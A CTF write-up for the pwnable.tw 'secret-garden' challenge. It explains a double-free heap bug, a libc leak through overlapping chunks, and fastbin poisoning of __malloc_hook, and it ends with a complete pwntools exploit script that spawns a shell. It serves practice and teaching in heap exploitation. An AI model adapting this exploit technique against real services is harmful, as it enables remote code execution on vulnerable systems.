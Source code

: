 # pwnable.tw - secret-garden

Original challenge link: https://pwnable.tw/challenge/#12

##  Overview

It maintains a 100 pointer array in bss. It first mallocs a 40 byte metadata store chunk, which contains if the flower name is present or freed, colour, and pointer to flower name. Flower name chunk is malloc'd based on size we tell it. But when flower is removed, only the name chunk is freed. We can't print the flower content once freed, but we can call remove again to cause a double free.

## Goal

The first goal is to leak libc base. Since the libc version is old, we can easily overwrite __free_hook to get shell. Fastbin chunks can leak heap base, but we need to use unsortedbin chunks to leak a libc address. 

For reference, here are the helper stubs i used - 
```py
def create(size, name=b"x", color=b"y"):
    p.sendlineafter(b"Your choice : ", b"1")
    p.sendlineafter(b"name :", str(size).encode())
    p.sendafter(b"name of flower :", name)
    p.sendlineafter(b"color of the flower :", color)

def clean():
    p.sendlineafter(b"Your choice : ", b"4")

def visit():
    p.sendlineafter(b"Your choice : ", b"2")

def remove(idx):
    p.sendlineafter(b"Your choice : ", b"3")
    p.sendlineafter(b"remove from the garden:", str(idx).encode())
```

## Exploit
The issue is that visit doesn't print chunk's contents if the chunk is freed. So what we do is we delete that flower and create a new flower that will overlap the freed chunk and print its contents then.

```py
create(0xc0)
create(0xc0)
remove(0)
```
Why are we deleting 0 first? because otherwise, if we call free on last 0xc0 size chunk, it will just get merged with top chunk instead of going into unsortedbin.

So now if we malloc(0xc0), we will get a chunk with libc address, but wait, first it malloc's 40 bytes to store metadata. so what we do is, we call clean() first, which also deletes the metadata of flower 0. So now when we create a chunk, it will totally overlap it. 

So we do this to leak libc - 
```py
clean()
create(0xc0, b"0000000#")
visit()
p.recvuntil(b"#")
libc.address = u64(bytes.ljust(p.recv(6), 8, b"\0")) - 3947384
log.info(f"libc base - {hex(libc.address)}")
```


Now we need an overwrite primitive. To do that, we refocus on chunk merging and how fastbin chunks are singly linked list with pointer to next free chunk. 

(Note: I am explaining assuming the heap is clean, we need to adjust the offsets a bit because of fragmentation of heap during previous leak.)
First we create two consecutive unsorted bin chunks. To do that, we do - 
```py
create(0xe0) #A - Flower 0
create(0xc0) #B - Flower 1
remove(0)    
create(0xc0) #C  - Flower 2
remove(1)
remove(2)
```

Now what happens is, since A goes into unsorted bin, C's metadata gets allocated there, and C itself will be allocated right next to B. Then we free both B and C. Keep in mind that after removing them, flower 1 and flower 2 index still point at B and C. But B and C will be consolidated.

Now we issue a chunk of size 0xc0*2, its metadata again going into #A, but the name being allocated at B. So now we can totally overwrite #C region including the preceding metadata bytes. We create a fake 0x40 size chunk at #C. 
For that, we free the big 0xc0*2 size chunk again (there were some sanity checks issues, so we create a random flower before freeing this.) 
```py
create(0xc0*2, flat(
    b"A"*0xc0, ## filler to reach #C metadata
    0x0, #padding
    0x40, #chunk size
    b"a"*0x30,#junk content
    0x0, #padding
    0x20 #next chunk size
))
create(0xc0)
remove(2) # free our faake chunk
remove(3) # free our outer chunk
```

But the issue now is, when we call free/remove on Flower 2, it will free our fake chunk, But it won't poison the linked list yet. To poison it, we have to now overwrite our fake pointer at our fake chunk now.

To do that, we just create 0xc0*2 size chunk again, giving use write at #B - 
```py
create(0xc0*2, flat(
    b"A"*0xc0,
    0x0,
    0x20,
    0x1337  #overwrite at *next of fastbin chunk
))
```

Now fastbin chunk looks like #C -> 0x1337. And when malloc is called for 0x40 bytes it will get allotted #C, and 0x1337 will be allotted to next malloc call.

Now we face another hurdle, the fastbin allocation is a bit different compared to tcache. Fast bin actually checks if the chunk being allocated is actually of the size of the bin its being allocated from. Say if its being allocated from 0x20 bin chunk, u64(target+8) has to be a valid integer < 0x90. Free hook and a large chunk before it was completely null, so its out of possibility.

Now if you go and see the memory behind malloc_hook, there are some IO related addresses, generally starting from 0x7....... So we use the offset malloc_hook-0x23, which resulted in size being read from malloc_hook-0x1b, which what all blank, except 1 byte of the pointer 0x7?. It can be anything from 0x70 to 0x7f, since the mod 16 value seems to be only treated as some flags.

Finally The question arises what to overwrite with, which I failed to solve myself, and had to look at other writeups :(. No one_gadget condition was being fulfilled on malloc call. One interesting solve is that when a program causes double free or similar malloc memory corruption errors, it results in an error being printed out and backtrace being generated (old libc behaviour, it shouldn't work beyond glibc 2.26, you can check our script fails if you add MALLOC_CHECK_=2 in env.). And when this call is executed, one_gadget condition is met during malloc, so we can get our shell.


## Solve Script
```py
from pwn import *
import time
exe = ELF("./secretgarden_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

gdbscript = """c
"""
def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10203)
    #env = {"LD_PRELOAD": libc.path}
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r, gdbscript=gdbscript)
        time.sleep(2)
    return r

p = conn()

def create(size, name=b"x", color=b"y"):
    p.sendlineafter(b"Your choice : ", b"1")
    p.sendlineafter(b"name :", str(size).encode())
    p.sendafter(b"name of flower :", name)
    p.sendlineafter(b"color of the flower :", color)

def clean():
    p.sendlineafter(b"Your choice : ", b"4")

def visit():
    p.sendlineafter(b"Your choice : ", b"2")

def remove(idx):
    p.sendlineafter(b"Your choice : ", b"3")
    p.sendlineafter(b"remove from the garden:", str(idx).encode())


create(0xc0)
create(0xc0)
remove(0)
clean()
create(0xc0, b"0000000#")
visit()
p.recvuntil(b"#")
libc.address = u64(bytes.ljust(p.recv(6), 8, b"\0")) - 3947384
log.info(f"libc base - {hex(libc.address)}")
remove(0)
remove(1)
create(0x90) ## just to clear chunk in smallbin.


### overwrite
create(0xe0) #flower 3
create(0xc0) #flower 4
remove(3)
create(0xc0) #flower 5
remove(4)
remove(5)

create(0xc0*2, flat(
    b"A"*0xc0,
    0x0,
    0x70,
    b"a"*0x60,
    0x0,
    0x20
)) #flower 6

create(0xc0) #f7
remove(5)
remove(6)

create(0xc0*2, flat(
    b"A"*0xc0,
    0x0,
    0x70,
    libc.sym["__malloc_hook"]-0x23
))#f8

create(0x60) #f9

create(0x60, b"a"*0x13+p64(libc.address+0xef6c4)) #f10
remove(10)

p.interactive()

```